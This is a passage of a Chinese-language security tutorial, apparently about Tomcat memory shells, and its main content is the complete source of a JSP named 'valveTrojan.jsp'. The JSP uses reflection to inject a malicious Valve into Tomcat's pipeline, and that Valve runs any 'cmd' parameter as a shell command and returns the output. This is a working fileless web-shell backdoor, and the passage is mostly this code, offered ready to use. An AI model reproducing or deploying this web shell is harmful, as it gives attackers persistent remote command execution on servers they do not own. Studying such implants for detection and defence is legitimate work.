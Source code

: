 

为了使正常invoke能进行下去，恶意valve也应该调用下一个valve.invoke

```java
this.getNext().invoke(request, response);
```

完整代码：

```java
//valveTrojan.jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.catalina.core.*" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
    Field requestField = request.getClass().getDeclaredField("request");
    requestField.setAccessible(true);

    final Request request1 = (Request) requestField.get(request);
    StandardContext standardContext = (StandardContext) request1.getContext();

    Field pipelineField = ContainerBase.class.getDeclaredField("pipeline");
    pipelineField.setAccessible(true);
    StandardPipeline standardPipeline1 = (StandardPipeline) pipelineField.get(standardContext);

    ValveBase valveBase = new ValveBase() {
        @Override
        public void invoke(Request request, Response response) throws ServletException,IOException {
            if (request.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in).useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                response.getWriter().write(output);
                response.getWriter().flush();
                this.getNext().invoke(request, response);
            }
        }
    };

    standardPipeline1.addValve(valveBase);

    out.println("evil valve inject done!");
%>



```
